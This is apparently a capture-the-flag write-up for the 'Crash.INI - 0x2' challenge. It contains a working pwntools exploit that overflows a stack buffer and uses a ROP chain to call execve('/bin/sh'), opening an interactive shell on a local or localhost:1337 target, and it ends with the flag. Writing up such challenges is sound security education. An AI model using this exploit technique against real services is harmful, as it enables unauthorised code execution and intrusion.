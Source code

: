 # Crash.INI - 0x2

## Write-up
The program is statically linked and there's a bunch of useful gadgets to work with.  
In addition, it contains the `/bin/sh` string, and PIE is disabled.
We can build a simple ROP chain to execute `execve("/bin/sh", NULL, NULL)`.

```python
#!/usr/bin/python3
from pwn import *
import sys

HOST, PORT = "localhost", 1337
SYS_EXECVE = 0x3B

elf = ELF("../../crashini-0x0/challenge/crashini")

if len(sys.argv) > 1:
    p = remote(HOST, PORT)
else:
    p = process(elf.path)

rop = ROP(elf)
pop_rax_ret = rop.find_gadget(["pop rax", "ret"]).address
pop_rdi_ret = rop.find_gadget(["pop rdi", "ret"]).address
pop_rsi_ret = rop.find_gadget(["pop rsi", "ret"]).address
pop_rdx_ret = rop.find_gadget(["pop rdx", "ret"]).address
syscall_ret = rop.find_gadget(["syscall"]).address
str_bin_sh = next(elf.search(b"/bin/sh"))

payload = flat(
    b"A" * (128 + 8),
    p64(pop_rax_ret),
    p64(SYS_EXECVE),
    p64(pop_rdi_ret),
    p64(str_bin_sh),
    p64(pop_rsi_ret),
    p64(0),
    p64(pop_rdx_ret),
    p64(0),
    p64(syscall_ret),
)

p.sendlineafter("plzz: ", payload)
p.interactive()
```

## Flag
`shellmates{sm4sh1ng_th3_st4ck_f0r_fun_4nd_pr0f1t}`
